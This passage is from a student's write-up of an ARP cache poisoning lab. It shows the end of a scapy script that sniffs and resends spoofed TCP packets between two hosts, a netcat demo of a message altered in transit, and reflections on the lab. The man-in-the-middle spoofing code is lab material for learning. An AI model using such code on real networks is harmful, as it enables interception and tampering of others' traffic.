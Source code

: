 ```python3
                send(pkt[IP])

#we only want to spoof packets between hosts A and B, so isolate their respective addresses
f = f'tcp and (ether src {MAC_A} or ether src {MAC_B})'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```

Let's start up the netcat server on host B and connect from host A. Then we run our script on host M and see what happens to our message
```shell
root@9cd27edc87ad:/# nc -lp 9090

root@ef3a05ea874d:/# nc 10.9.0.6 9090
mmy name is daniel hello
```
![image](https://github.com/user-attachments/assets/40b1c21f-97fc-4da8-8e63-9b5bebca23f7)

Would you look at that! It replaced my name with A's!

## Task 4: Write-Up
This lab helped cement the differences in practicality with ARP requests and ARP responses;
how they serve different purposes when it comes to cache poisoning, whether or not an entry
is sitting in the ARP table already.
The lab also forced me to become at least somewhat familiar with scapy library, of which I had 
only glances with in the past. 

The first section was surprisingly tedious for me; it took a 
bit of time to consistently poison the ARP caches of hosts A and B, or to even register their 
appropriate bindings in their respective ARP caches until I created a small script to make that 
job easier for me. 

I have a higher appreciation for tools like (b)ettercap now. It becomes very tedious to
repeatedly poison caches, as the hosts re-acquire their correct IP:MAC bindings over time.

The lab also improved my tmux skills a decent bit, having to alternate between 4 hosts on
a regular basis would have been a massive pain without it.
